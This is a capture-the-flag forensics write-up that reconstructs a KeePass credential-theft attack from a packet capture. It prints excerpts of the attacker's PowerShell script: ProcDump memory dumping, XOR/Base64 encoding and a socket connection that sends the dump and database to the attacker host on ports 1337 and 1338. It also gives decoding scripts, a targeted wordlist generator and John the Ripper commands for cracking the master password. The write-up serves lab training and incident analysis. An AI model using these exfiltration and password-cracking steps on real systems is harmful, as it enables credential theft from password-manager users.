








# Extracted - TryHackMe Write-up

## Scenario

This room focuses on investigating a suspicious network capture after abnormal outbound traffic was detected from a workstation. Since no SIEM logs were available, the provided packet capture (`traffic.pcapng`) served as the primary source of evidence to reconstruct the attack and identify what information had been exfiltrated.

---

## Initial Network Traffic Analysis

After extracting the challenge files, the packet capture was opened in **Wireshark**.

```bash
unzip file-1693277727739.zip
```

The archive contained the following forensic artifact:

```text
traffic.pcapng
```

Rather than immediately searching for specific indicators, the investigation began with a high-level review of the captured traffic.

During the initial packet inspection, an HTTP request immediately stood out.

```http
GET /xxxmmdcclxxxiv.ps1 HTTP/1.1
```

The victim workstation (`10.10.45.95`) requested a PowerShell script from the remote server (`10.10.94.106`). Since the file was transferred over HTTP instead of HTTPS, its contents could be recovered directly from the packet capture.



---

To better understand the overall capture, the **Protocol Hierarchy** statistics were reviewed.

The capture primarily consisted of IPv4 traffic over TCP, with HTTP being the only application-layer protocol involved. Because the communication was unencrypted, the transferred PowerShell script could be inspected without any additional decoding.



---

## Finding 1 - PowerShell Credential Theft Script

Following **TCP Stream 0** exposed the complete PowerShell script served by the attacker's HTTP server.



The script revealed a targeted **KeePass credential theft tool** — built entirely from legitimate Windows utilities. No custom malware was deployed; instead, the attacker relied on a classic **Living-off-the-Land (LotL)** approach, abusing trusted system tools to dump KeePass memory, obfuscate the collected data, and silently exfiltrate it to a remote server.

The complete attack workflow is broken down below.

---

### 1. ProcDump Availability Check

The script first verifies whether Microsoft's **ProcDump** utility already exists on the victim system.

```powershell
$PRoCDumppATh = 'C:\Tools\procdump.exe'

if (-Not (Test-Path -Path $PRoCDumppATh)) {
    $ProcdUmpDOWNloADURL = 'https://download.sysinternals.com/files/Procdump.zip'
    Invoke-WebRequest -Uri $ProcdUmpDOWNloADURL -OutFile $PrOcdUmpziPpaTH
}
```

Instead of deploying a custom memory dumping tool, the attacker uses Microsoft's legitimate **Sysinternals ProcDump** utility. This is a common **Living-off-the-Land (LotL)** technique, where trusted administrative tools are abused to perform malicious actions while blending in with legitimate system activity.

---

### 2. Targeting KeePass

After ensuring ProcDump is available, the script searches for the running KeePass process.

```powershell
$KEEPASsPrOCesS = Get-Process -Name 'KeePass'
```

The script specifically targets **KeePass**, indicating that the attacker's objective is credential theft. When KeePass is unlocked, sensitive information such as the master password and decrypted secrets may reside in process memory, making memory dumping an effective technique for credential extraction.

---

### 3. Creating a Full Memory Dump

Once the KeePass process is located, ProcDump is executed.

```powershell
$ProcStArtiNFO.FileName = $PRoCDumppATh
$ProcStArtiNFO.Arguments = "-accepteula -ma $($KEEPASsPrOCesS.Id) `"$dUmPFilEpath`""
```

The **`-ma`** parameter instructs ProcDump to generate a **full process memory dump**. This dump captures the complete memory space of the KeePass process, allowing an attacker to recover sensitive data without directly interacting with the application.

---

### 4. Obfuscating the Memory Dump

Before transmitting the dump, the script applies a simple obfuscation routine.

```powershell
$xoRKEy = 0x41

for ($i = 0; $i -lt $duMpBYtES.Length; $i++) {
    $duMpBYtES[$i] = $duMpBYtES[$i] -bxor $xoRKEy
}

$bASE64enCoDeD = [System.Convert]::ToBase64String($duMpBYtES)
```

The dump is first XOR-obfuscated using the key **`0x41`**, followed by **Base64 encoding**. While this does not provide strong encryption, it disguises the binary data and allows it to be safely transmitted over a text-based TCP stream.

---

### 5. Memory Dump Exfiltration

The encoded memory dump is then transmitted to the attacker's server.

```powershell
$sERveRIP = "0xa0a5e6a"
$SeRvERpORT = 1337

$ClIENt = New-Object System.Net.Sockets.TcpClient
$ClIENt.Connect($sERveRIP, $SeRvERpORT)
```

The destination IP is stored in hexadecimal format (`0xa0a5e6a`), which resolves to **10.10.94.106**. The encoded memory dump is transmitted over **TCP port 1337**, representing the first stage of credential exfiltration.

---

### 6. KeePass Database Theft

Finally, the script targets the KeePass database file.

```powershell
$inPutFiLEName = 'Database1337.kdbx'
$xoRKEy = 0x42
$SeRvERpORT = 1338
```

In addition to stealing process memory, the attacker also targets the KeePass database itself. The database is XOR-obfuscated using key **`0x42`**, Base64 encoded, and transmitted over **TCP port 1338**. By obtaining both the process memory and the encrypted database, the attacker significantly increases the likelihood of recovering the stored credentials.

---

## Finding 2 - Verifying KeePass Memory Dump Exfiltration

The PowerShell script indicated that the KeePass memory dump would be transmitted to the attacker over **TCP port 1337**. To validate this behavior, the following Wireshark display filter was applied:

```text
tcp.port == 1337
```

The filtered traffic revealed a dedicated TCP session carrying a large amount of outbound Base64-encoded data from the victim to the remote server, confirming that the memory dump was successfully exfiltrated.



---

Following **TCP Stream 1** exposed the raw encoded payload. The sheer size of the stream — **354 MB** — confirmed that a full process memory dump had been transmitted.



To simplify the analysis, the raw TCP stream was extracted using **TShark**.

```bash
tshark -r traffic.pcapng -q -z follow,tcp,raw,1 > stream1337.txt

grep -E '^[0-9a-fA-F]+$' stream1337.txt > dump_1337.raw
```

The exported TCP stream contains both payload data and TShark formatting information. The `grep` command filters the output and retains only hexadecimal data, producing a clean payload (`dump_1337.raw`) that can be decoded in the next step.

---

## Finding 3 - Recovering the KeePass Memory Dump

Static analysis of the PowerShell script showed that the KeePass memory dump was first XOR-obfuscated using the key `0x41` and then Base64 encoded before being transmitted.

To reverse this process, the following Python script was used:

```python
#!/usr/bin/env python3

import base64
import binascii
from pathlib import Path

hex_data = "".join(Path("dump_1337.raw").read_text().splitlines())
b64_data = binascii.unhexlify(hex_data).strip()

# Fix Base64 padding
b64_data += b"=" * (-len(b64_data) % 4)

xor_data = base64.b64decode(b64_data, validate=False)
dump = bytes(b ^ 0x41 for b in xor_data)

Path("1337.dmp").write_bytes(dump)

print("[+] Saved: 1337.dmp")
```

The script performs the reverse of the attacker's encoding process by:

1. Converting the hexadecimal payload back into its original Base64 representation.
2. Decoding the Base64 data.
3. Reversing the XOR obfuscation using the key `0x41`.
4. Writing the recovered output to `1337.dmp`.

Since the dump originated from the KeePass process, the next step was to extract the master password from the recovered memory.

---

## Finding 4 - Recovering the KeePass Master Password

With a valid KeePass process memory dump in hand, the next step was to extract the master password directly from memory.

The **keepass_dump** tool was used for this purpose — it scans a KeePass MiniDump and reconstructs the master password by locating character fragments stored within the process memory space.

> Download: https://github.com/z-jxy/keepass_dump

```bash
python3 keepass_dump.py -f 1337.dmp --skip --debug
```

Recovered output:

```text
[*] Extracted: {UNKNOWN}NoWaY<{I, n}>********<{r, t}>****123
```

The tool successfully reconstructed most of the password, however three characters remained ambiguous:

- **Position 1** — first character could not be recovered
- **Position 8** — either `I` or `n`
- **Position 16** — either `r` or `t`

Rather than launching a full brute-force attack, a small targeted wordlist was generated covering only these unknown combinations. Since the rest of the password structure was already known, this reduced the search space to just a few hundred candidates.

```python
#!/usr/bin/env python3

output = "keepass_wordlist.txt"

charset = ''.join(chr(i) for i in range(33, 127))
second = ["I", "n"]
third = ["r", "t"]

with open(output, "w") as f:
    for first in charset:
        for s in second:
            for t in third:
                f.write(f"{first}NoWaY{s}canF0{t}GetThis123\n")
```

This generated `94 × 2 × 2 = 376` candidate passwords — a fraction of what a traditional brute-force would require.

---

## Finding 5 - Recovering the KeePass Database

The PowerShell script also targeted the KeePass database file (`Database1337.kdbx`). According to the script, the database was XOR-obfuscated using the key `0x42`, Base64 encoded, and transmitted over **TCP port 1338**.

To verify this behavior, the following Wireshark display filter was applied:

```text
tcp.port == 1338
```

The filtered traffic revealed a second TCP session carrying a large Base64-encoded payload from the victim to the attacker.



---

Following **TCP Stream 2** exposed the complete encoded payload.



The Base64 data was extracted and saved as `database_b64.txt`. To recover the original database, the XOR obfuscation was reversed using the following Python script.

```python
#!/usr/bin/env python3

import base64

INPUT_FILE = "database_b64.txt"
OUTPUT_FILE = "Database1337.kdbx"

with open(INPUT_FILE, "r") as f:
    b64_data = f.read().strip()

decoded = base64.b64decode(b64_data)

recovered = bytes(b ^ 0x42 for b in decoded)

with open(OUTPUT_FILE, "wb") as f:
    f.write(recovered)

print(f"[+] Recovered file saved as: {OUTPUT_FILE}")
```

The script reverses the attacker's encoding routine by Base64 decoding the payload and applying the XOR key `0x42`, reconstructing the original KeePass database.

Although the database had been successfully recovered, it remained encrypted and required the master password extracted from the memory dump.

---

## Finding 6 - Unlocking the KeePass Database

Although the KeePass database had been successfully recovered, it remained protected by the master password. The partially recovered password from the memory dump was therefore used to generate a targeted wordlist and recover the correct password.

First, the KeePass database hash was extracted.

```bash
keepass2john Database1337.kdbx > hash.txt
```

The generated wordlist was then supplied to **John the Ripper**.

```bash
john hash.txt --wordlist=keepass_wordlist.txt
```

Output:

```text
Recovered password: ?NoWaY**************123
```

The recovered password confirmed that the missing characters had been successfully reconstructed using the targeted wordlist rather than a traditional brute-force attack.

With the correct password identified, the KeePass database was opened using **KeePassXC**.

```bash
keepassxc Database1337.kdbx
```

After entering the recovered master password, the database unlocked successfully and all stored credentials became accessible.



The recovered credentials also contained the challenge flag, completing the forensic investigation and confirming the attacker's objective of stealing sensitive information stored within the KeePass password manager.